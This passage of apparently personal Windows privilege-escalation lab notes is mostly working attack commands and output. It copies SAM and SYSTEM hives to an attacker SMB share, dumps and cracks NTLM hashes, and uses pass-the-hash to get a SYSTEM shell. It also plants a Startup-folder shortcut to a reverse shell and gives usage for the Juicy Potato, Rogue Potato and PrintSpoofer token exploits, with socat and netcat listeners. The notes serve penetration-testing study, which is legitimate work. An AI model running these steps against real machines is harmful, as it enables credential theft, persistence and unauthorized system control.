> copy C:\Windows\Repair\SAM \\\192.168.1.164\tools\   
> copy C:\Windows\Repair\SYSTEM \\\192.168.1.164\tools\   
```powershell
C:\PrivEsc\tools>copy C:\Windows\Repair\SAM \\192.168.1.164\tools\
copy C:\Windows\Repair\SAM \\192.168.1.164\tools\
        1 file(s) copied.

C:\PrivEsc\tools>copy C:\Windows\Repair\SYSTEM \\192.168.1.164\tools\
copy C:\Windows\Repair\SYSTEM \\192.168.1.164\tools\
        1 file(s) copied.

```

3. Extract the password hashes 
> samdump2 SYSTEM SAM
```bash
┌──(kali㉿kali)-[~/Training]
└─$ samdump2 SYSTEM SAM 
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* :503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* :504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
IEUser:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
:1002:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
:1003:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
admin:1004:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::
```

4. Crack the hashes with hashcat
> hashcat -m 1000 a9fdfa038c4b75ebc76dc855dd74f0da password
```bash
┌──(kali㉿kali)-[~/Training]
└─$ hashcat -m 1000 a9fdfa038c4b75ebc76dc855dd74f0da password
hashcat (v6.1.1) starting...

-- Snip --

a9fdfa038c4b75ebc76dc855dd74f0da:password123

Session..........: hashcat
Status...........: Cracked
Hash.Name........: NTLM
Hash.Target......: a9fdfa038c4b75ebc76dc855dd74f0da
Time.Started.....: Fri Oct 29 12:16:37 2021 (0 secs)
Time.Estimated...: Fri Oct 29 12:16:37 2021 (0 secs)
Guess.Base.......: File (password)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     3116 H/s (0.00ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 2/2 (100.00%)
Rejected.........: 0/2 (0.00%)
Restore.Point....: 0/2 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: password321 -> password123

Started: Fri Oct 29 12:16:36 2021
Stopped: Fri Oct 29 12:16:39 2021
```

These hashes can also be used to pass the hash:
> pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.1.174 cmd.exe    
> pth-winexe --system -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.1.174 cmd.exe
```bash
┌──(kali㉿kali)-[~]
└─$ pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.1.174 cmd.exe
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.17763.379]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
msedgewin10\admin

┌──(kali㉿kali)-[~]
└─$ pth-winexe --system -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.1.174 cmd.exe
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.17763.379]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

## Scheduled Tasks
Windows can be configured to run tasks at specific times, periodically (e.g. every 5 mins) or when triggered by some event (e.g. a user logon).   
Tasks usually run with the privileges of the user who created them, however administrators can configure tasks to run as other users, including SYSTEM.

Unfortunately, there is no easy method for enumerating custom tasks that belong to other users as a low privileged user account.   
List all scheduled tasks your user can see:
> schtasks /query /fo LIST /v

In PowerShell:
> PS> Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State

Often we have to rely on other clues, such as finding a script or log file that indicates a scheduled task is being run.

## Breakout

From a program running as an admin you can file open and input the following:
> file://c:/windows/system32/cmd.exe


## Startup Apps

Each user can define apps that start when they log in, by placing shortcuts to them in a specific directory. Windows also has a startup directory for apps that should start for all users:
> C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp

If we can create files in this directory, we can use our reverse shell executable and escalate privileges when an admin logs in.

1. Use accesschk.exe to check permissions on the StartUp directory:
> .\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```powershell
C:\PrivEsc\tools>accesschk.exe /accepteula -d "c:\programdata\microsoft\windows\start menu\programs\startup"
accesschk.exe /accepteula -d "c:\programdata\microsoft\windows\start menu\programs\startup"

AccessChk v4.02 - Check access of files, keys, objects, processes or services
Copyright (C) 2006-2007 Mark Russinovich
Sysinternals - www.sysinternals.com

c:\programdata\microsoft\windows\start menu\programs\StartUp
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
   W S-1-5-21-321011808-3761883066-353627080-1001
  RW MSEDGEWIN10\IEUser
  RW MSEDGEWIN10\admin
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
  R  Everyone
```

2. Note that the BUILTIN\Users group has write access to this directory.
3. Copy the following script (CreateShortcut.vbs) to the target. 
```powershell
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\tools\reverse.exe"
oLink.Save
```
4. Run the script with cscript:
> cscript CreateShortcut.vbs

This will trigger your reverse shell when an admin logins.

## Hot Potato

Source code found at `https://github.com/foxglovesec/Potato`

Hot Potato is the name of an attack that uses a spoofing attack along with an NTLM relay attack to gain SYSTEM privileges. The attack tricks Windows into authenticating as the SYSTEM user to a fake HTTP server using NTLM. The NTLM credentials then get relayed to SMB in order to gain command execution. This attack works on Windows 7, 8, early versions of Windows 10, and their server counterparts.

Steps depend on the version of windows:

```powershell
C:\PrivEsc\tools>potato.exe -h
potato.exe -h
Usage: potato.exe 
-ip <ip address> 
-cmd <command> 
-drop_first_dcom <true/false>
-enable_exhaust <true/false> 
-enable_defender <true/false> 
-enable_spoof <true/false>
-spoof_host <default wpad> 
-spoof_address <default, localip> 
-wpad_exclude <comma separated host to exclude>
-schedule_task <true/false, Win10 only> 
-srv_port <port for webserver to listen, default 80>
-enable_httpserver <true/false> 
-enable_defender_scan <true/false> 
-enable_etw <true/false> [guid][StandAlone]
-enable_token <true/false> [needs http or dcom] 
-enable_dce <true/false> 


Example Windows 7:
Potato.exe -ip <ip> -cmd "ping 127.0.0.1" -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true

Example Windows 10:
Potato.exe -ip <ip> -cmd "ping 127.0.0.1" -enable_httpserver true -schedule_task true

Example Windows Server 2008:
Potato.exe -ip <ip> -cmd "ping 127.0.0.1" -enable_httpserver true -enable_spoof true -spoof_host "WPAD.DOMAIN.TLD" 

Example Windows Server 2012:
Potato.exe -ip <ip> -cmd "ping 127.0.0.1" -enable_httpserver true -enable_spoof true

Example Windows 10:
Potato.exe -ip <ip> -cmd "ping 127.0.0.1" -enable_httpserver true -enable_defender_scan true

Example Enable WebClient:
Potato.exe -enable_etw true
Potato.exe -enable_etw 22b6d684-fa63-4578-87c9-effcbe6643c7

Example IIS/MSSQL/*:
Potato.exe -enable_token true -enable_dce true
Potato.exe -enable_token true -enable_httpserver true -enable_defender_scan true -srv_port 9595
Potato.exe
```


## Token Impersonation
Service accounts can be given special privileges in order for them to run their services, and cannot be logged into directly.
Unfortunately, multiple problems have been found with service accounts, making them easier to escalate privileges with.

 "SeImpersonatePrivilege/SeAssignPrimaryToken" privilege needed to be enabled.

### Juicy Potato
Source code can be found at `https://github.com/ohpe/juicy-potato`
> C:\PrivEsc\JuicyPotato.exe -l 1337 -p C:\PrivEsc\reverse.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}

- Note: "-c" argument take CLSID, so if it doesn't work check this list: https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md or run GetCLSID.ps1 PowerShell script.

### Rogue Potato

- Latest of the "Potato" exploits.
   - GitHub: https://github.com/antonioCoco/RoguePotato
   - Blog: https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/
   - Compiled Exploit: https://github.com/antonioCoco/RoguePotato/releases
- Usage:
	- On Kali:
	1. Set up a socat redirector on Kali, forwarding Kali port 135 to port 9999 on Windows    
		> sudo socat tcp-listen:135,reuseaddr,fork tcp:[Windows IP Machine]:9999   
	2. Start listener   
		> nc -lvp [Port assign in reverse.exe shell]   
       
	- On Windows Victim machine:
		> C:\PrivEsc\RoguePotato.exe -r [Kali IP Machine] –l 9999 -e "C:\PrivEsc\reverse.exe"
  
### PrintSpoofer:
- PrintSpoofer is an exploit that targets the Print Spooler service.
	- GitHub: https://github.com/itm4n/PrintSpoofer
	- Blog: https://itm4n.github.io/printspoofer-abusing-impersonate-privileges
- Usage: 
> C:\PrivEsc\PrintSpoofer.exe –i -c "C:\PrivEsc\reverse.exe"

